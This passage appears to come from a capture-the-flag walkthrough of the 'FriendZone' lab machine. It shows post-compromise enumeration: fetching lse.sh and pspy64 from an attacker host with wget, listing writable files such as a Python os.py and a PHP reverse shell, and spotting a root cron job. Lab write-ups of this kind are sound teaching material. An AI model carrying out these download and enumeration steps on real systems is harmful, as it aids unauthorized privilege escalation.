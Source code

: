 ```
HTTP request sent, awaiting response... 200 OK
Length: 30962 (30K) [text/x-sh]
Saving to: ‘lse.sh’

lse.sh                                             100%[================================================================================================================>]  30.24K  --.-KB/s    in 0.07s   

2019-09-19 22:07:32 (458 KB/s) - ‘lse.sh’ saved [30962/30962]
```
After running the script we will see that there are a few files we have write permssions too. Just take note of these for now
```
[*] fst000 Writable files outside user's home.............................. yes!
---
/etc/sambafiles
/etc/Development
/etc/Development/php-reverse-shell.php
/var/spool/samba
/var/tmp
/var/mail/friend
/var/lib/samba/usershares
/var/lib/php/sessions
/tmp
/tmp/output.txt
/tmp/lse.sh
/tmp/.Test-unix
/tmp/.ICE-unix
/tmp/.font-unix
/tmp/pspy64
/tmp/.X11-unix
/tmp/.XIM-unix
/home/friend
/usr/lib/python2.7
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/os.py
```
Now next I download a program called <b>pspy</b> to look at processes running in the background.
```
friend@FriendZone:/tmp$ wget 10.10.14.21/pspy64                                                       
--2019-09-19 21:58:12--  http://10.10.14.21/pspy64                                                    
Connecting to 10.10.14.21:80... connected.                                                            
HTTP request sent, awaiting response... 200 OK                                                        
Length: 4468984 (4.3M) [application/octet-stream]                                                     
Saving to: ‘pspy64’                                                                                   

pspy64                    100%[===================================>]   4.26M   291KB/s    in 19s      

2019-09-19 21:58:31 (233 KB/s) - ‘pspy64’ saved [4468984/4468984]                                     
```
Make the file executable and then run it. You might have to wait a little bit but eventually you should see something interesting.
```
2019/09/19 22:02:01 CMD: UID=0    PID=1445   | /bin/sh -c /opt/server_admin/reporter.py
2019/09/19 22:02:01 CMD: UID=0    PID=1444   | /bin/sh -c /opt/server_admin/reporter.py
```